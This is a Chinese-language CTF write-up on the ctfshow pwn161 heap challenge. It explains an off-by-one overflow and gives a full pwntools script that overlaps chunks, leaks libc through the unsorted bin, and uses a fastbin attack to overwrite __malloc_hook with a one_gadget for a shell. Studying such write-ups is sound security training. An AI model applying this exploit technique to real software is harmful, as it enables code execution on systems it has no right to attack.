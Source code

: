 ```yaml
---
title: ctfshow 堆利用部分wp
date: 2025-3-13 00:00:00 +0800
categories: [Blog, pwn]
tags: [pwn]
---
```


### pwn161

通过代码审计发现edit函数中当输入size - chunk_size = 10时，可以触发offbyone漏洞多读入1字节。

通过off by one，可以造成堆块重叠，进而可以打unsorted bin leak泄露malloc_hook地址 & libc基址

后续打fast bin attack可以劫持malloc hook

```python
import LibcSearcher
from pwn import *
from LibcSearcher import *
context(arch='amd64', os='linux',log_level='debug')

local = 0
if local == 0:
    io = remote("pwn.challenge.ctf.show",28259)
else:
    io = gdb.debug('./pwn', 'b *$rebase(0xc5e)')

elf = ELF('./pwn')

libc = ELF('/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')

def add(size):
    io.sendlineafter("Choice",b'1')
    io.sendlineafter("size",str(size))

def edit(index, size, content):
    io.sendlineafter("Choice",b'2')
    io.sendlineafter("index",str(index))
    io.sendlineafter("size",str(size))
    io.sendlineafter("content",content)

def free(index):
    io.sendlineafter("Choice",b'3')
    io.sendlineafter("index",str(index))

def show(index):
    io.sendlineafter("Choice",b'4')
    io.sendlineafter("index",str(index))

add(0x18) #0
add(0x10) #1
add(0x100) #2
add(0x10) #3 防止被合并
edit(0, 0x18+10, cyclic(0x18) + b'\x51') #此时chunk1 size = 0x51
edit(2, 0x30,cyclic(0x20) + p64(0) + p64(0x21))
free(1) #chunk1 进入fast bin free时会对next chunk的size位检查
add(0x40) #申请到chunk1
edit(1, 0x20, b'\x00'*0x10 + p64(0) + p64(0x111))
free(2)
show(1)
io.recvuntil(b'content: ')
io.recv(32)
unsorted_bin = u64(io.recv(6).ljust(8, b'\x00'))
malloc_hook = unsorted_bin - 0x68
libc_base = malloc_hook - libc.sym['__malloc_hook']
ogg = libc_base + 0x4527a
print(hex(unsorted_bin))

add(0x100) #申请到chunk2
payload = cyclic(0x60) + p64(0) + p64(0x71)
edit(2, len(payload), payload) #为fastbin attack做准备 进入fast bin free时会对next chunk的size位检查
edit(1, 0x20,b'\x00'*0x10 + p64(0) + p64(0x71))
free(2)
payload = cyclic(0x10) + p64(0) + p64(0x71) + p64(malloc_hook-0x23) #fd
edit(1,len(payload),payload)
add(0x60) #2
pause()
add(0x60) #申请到malloc_hook处 4
payload = cyclic(0x13) + p64(ogg)
edit(4, len(payload), payload)
add(0x10)
io.interactive()
```

- 堆块重叠构造fake chunk时，对其进行free进入fastbin时会check next chunk的size位进行检查，所以需要注意构造
- 申请fastbin中的chunk时也会对chunk size进行check，所以一定要符合对应fast bin大小
- b *$rebase(offset) 可以在开启PIE偏移情况下打断点
- 进行堆块重叠操作之前注意规避consolidate
- calloc会清空chunk内容，其底层依旧是调用malloc

### 
